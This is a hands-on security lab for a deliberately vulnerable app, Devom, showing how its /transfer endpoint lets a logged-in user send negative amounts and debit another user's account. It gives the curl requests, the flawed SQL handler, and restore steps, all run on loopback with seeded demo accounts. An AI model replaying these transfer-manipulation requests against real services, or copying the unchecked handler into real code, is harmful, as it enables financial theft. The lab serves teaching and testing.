

# 26 — Insufficient transaction validation

*Can a transfer move money the server should have refused?*

## What this lab does

You will use `cala`'s session to make three transfers between the two seeded accounts and compare the balances after each one:

1. a normal small transfer in the intended direction,
2. the same transfer with a negative amount,
3. a transfer whose `from_id` is the other user's account.

The endpoint checks only that a valid token is present. It does not check that the token's user owns `from_id`, that the amount is positive, or that the sender has enough money.

**Target:** Devom at revision [`af4290ce8d2178765bfc2bd96cf233f6d3d03161`](https://github.com/memohk/Devom/tree/af4290ce8d2178765bfc2bd96cf233f6d3d03161). **Piloted** on 29 October 2026 against the pinned revision running on loopback (Python 3.14, Flask 3.1.3). The results below were observed in that run.

## Before you begin

Complete [Common prerequisites](00-common-setup.md) and [Devom setup](01-devom-setup.md). Use only the two seeded accounts: `cala` (`100500`) and `admin` (`133700`). Both are disposable, and no real financial data is involved.

Keep every amount small. The lab uses `5` and `1` so the balances stay printable and easy to restore. Do not repeat the tests in a loop.

## Tools needed

- The running Devom backend from [Devom setup](01-devom-setup.md).
- Bash and `curl`, or an API client that can send a JSON body and an `Authorization` header.

Every request sends `User-Agent: Postman` so the JSON responses are readable.

## Guided walkthrough

### 1. Sign in and record both starting balances

```bash title="Sign in as cala"
BASE='https://127.0.0.1:8080'
curl --insecure -i -A 'Postman' -H 'Content-Type: application/json' \
  --data '{"username":"cala","password":"cala123"}' "$BASE/login"
```

Copy `session_token` into `TOKEN`, then read both profiles with that one token:

```bash title="Read both balances"
TOKEN='PASTE_SESSION_TOKEN_HERE'
curl --insecure -s -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  "$BASE/profile/100500" | grep -o '"balance": *[0-9]*'
curl --insecure -s -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  "$BASE/profile/133700" | grep -o '"balance": *[0-9]*'
```

!!! success "Expected"
    Two lines: `"balance":1000` for `100500` and `"balance":999999` for `133700` on a fresh database. Write both numbers down; they are your baseline.

The second request already shows that a token for one user can read another user's profile. Lab 28 covers that separately; here it is only how you read the balances.

### 2. Send a normal transfer

```bash title="Transfer 5 from cala to admin"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  --data '{"from_id":"100500","to_id":"133700","amount":5}' "$BASE/transfer"
```

!!! success "Expected"
    `HTTP/1.1 200 OK` with `{"status": "success", "transaction_id": "<six digits>"}`.

Repeat the two balance reads from Step 1.

!!! success "Expected"
    `100500` is now `995` and `133700` is `1000004`. The amounts moved exactly as requested.

### 3. Send the same transfer with a negative amount

```bash title="Transfer -5 from cala to admin"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  --data '{"from_id":"100500","to_id":"133700","amount":-5}' "$BASE/transfer"
```

!!! success "Expected"
    `HTTP/1.1 200 OK` with a new `transaction_id`.

Read both balances again.

!!! success "Expected"
    `100500` is back to `1000` and `133700` is back to `999999`. Subtracting `-5` added 5 to the sender, and adding `-5` removed 5 from the receiver.

That single request shows the missing amount check: a negative value reversed the direction of the transfer and was recorded as a success.

### 4. Send a transfer from the other user's account

```bash title="Spend admin's balance with cala's token"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  --data '{"from_id":"133700","to_id":"100500","amount":1}' "$BASE/transfer"
```

!!! success "Expected"
    `HTTP/1.1 200 OK`. Balances become `1001` and `999998`.

`from_id` is `133700`, but the token belongs to `100500`. The handler never compares the two, so the request debits an account the caller does not own.

Restore the balances with one transfer in the opposite direction:

```bash title="Put the 1 back"
curl --insecure -i -A 'Postman' -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  --data '{"from_id":"100500","to_id":"133700","amount":1}' "$BASE/transfer"
```

!!! success "Expected"
    `HTTP/1.1 200 OK`, and the balances return to `1000` and `999999`.



In the pilot the balances moved `1000/999999` → `995/1000004` → `1000/999999` → `1001/999998` → `1000/999999`. Each transfer returned `200`.

### 5. Read the handler

Open `server.py` and find `transfer`. In this revision it runs three statements and returns success:

```python
db.execute("UPDATE users SET balance = balance - ? WHERE id = ?", (d['amount'], d['from_id']))
db.execute("UPDATE users SET balance = balance + ? WHERE id = ?", (d['amount'], d['to_id']))
db.execute("INSERT INTO transactions (id, from_id, to_id, amount) VALUES (?,?,?,?)", (...))
```

There is no amount check, no ownership check against `decoded_token['sub']`, and no check that the sender's balance covers the amount. The `@token_required` decorator proves a token is valid, nothing more.

### 6. Separate the findings

- **Sign:** a negative amount moves money in the opposite direction.
- **Ownership:** `from_id` is taken from the body, not from the token.
- **Funds:** nothing stops a debit that exceeds the balance, so the sender can go negative.
- **Record:** the transaction row stores whatever amount was sent, including the negative one.

Each has its own fix. A response of `200` alone does not show a balance change, so quote the before and after numbers.

## Troubleshooting

- **`401 Token is missing!`:** the `Authorization` header is missing or does not start with `Bearer `.
- **`401 Token is invalid!`:** the token was copied with a newline, or it expired. Sign in again.
- **The balance output is empty:** without `User-Agent: Postman` the response is encrypted. Add the header.
- **`500` from `/transfer`:** a required field is missing. The body needs `from_id`, `to_id`, and `amount` as numbers or numeric strings.
- **The balances do not match the expected values:** you are not on a fresh database, or a previous lab changed them. Record the actual baseline and compare differences instead of absolute numbers.

<details markdown="1">
<summary>Hints</summary>

1. Look at which claims the handler uses. `decoded_token` is passed in but never compared with `from_id`.
2. `amount` is inserted straight into a SQL `UPDATE` with no validation.
3. Check whether the two updates and the insert run inside one database transaction.

</details>

## Evidence

Submit these four items:

- **Baseline:** both account IDs and starting balances.
- **Normal transfer:** request body, response, and the two balances after it.
- **Invalid transfers:** the negative-amount request and the cross-account request, each with its response and the resulting balances.
- **Limits:** state that only the two seeded accounts were used, the amounts were small, and the balances were restored.

## Vulnerability and Impact

`/transfer` authenticates the request but does not authorize or validate it. The sender comes from the request body, the amount is unvalidated, and the balance is never compared with the debit. Because the two `UPDATE` statements are separate statements, a failure between them can also leave one side of a transfer applied.

The impact is that any authenticated user can move money between arbitrary accounts, drain an account they do not own, and create negative transfers that reverse the intended direction. In a real bank this is direct financial loss and corrupted ledgers. Here it changes two disposable rows; the demonstration is the missing checks, not the amount.

## Cleanup and review

- Confirm the balances are back to `1000` and `999999`. If they are not, make one final transfer in the correcting direction.
- Leave the transaction rows in place; they are the audit trail of what you did.
- Delete the local token copy.

Which invariant must hold for every transfer, and where in the handler should each of the three checks happen?
